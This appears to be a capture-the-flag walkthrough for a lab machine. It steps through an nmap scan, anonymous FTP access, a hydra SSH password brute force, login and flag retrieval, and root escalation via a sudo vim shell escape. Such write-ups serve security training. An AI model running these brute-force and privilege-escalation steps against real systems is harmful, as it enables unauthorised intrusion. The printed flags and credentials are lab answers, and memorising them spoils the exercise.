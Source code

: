 1. Scan the network.

	$$ nmap -sV -Pn 10.10.238.31

	==> Starting Nmap 7.91 ( https://nmap.org ) 
		at 2022-02-06 08:46 UTC

		Nmap scan report for 10.10.238.31

		PORT     STATE SERVICE VERSION

		21/tcp   open  ftp     vsftpd 3.0.3
		80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
		2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

		Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


2. Access the FTP server.

	$$ ftp 10.10.238.31

	## login with name: anonymous.

	$$ ls
	$$ cd pub
	$$ ls
	$$ get ForMitch.txt

	## Now we know that the username is 'mitch'(ssh).


3. Bruit Forcing the ssh password.

	$$ hydra ssh://10.10.238.31:2222 -l mitch -P best110.txt -V -f

	==> [2222][ssh] host: 10.10.238.31   login: mitch   password: secret


4. Accessing the ssh server.

	$$ ssh mitch@10.10.238.31 -p 2222

	## Password: secret

	==> And we are now logedin.

	$$ ls
	$$ cat user.txt

	==> G00d j0b, keep up!


5. Find, What can you leverage to spawn a privileged shell.

	$$ sudo -l

	==> User mitch may run the following commands on Machine:
    	(root) NOPASSWD: /usr/bin/vim


6. Escalate your privilege using 'vim'.

	$$ sudo vim -c ':!/bin/bash'
	$$ id 

	==> uid=0(root) gid=0(root) groups=0(root)

	## And we are now root.

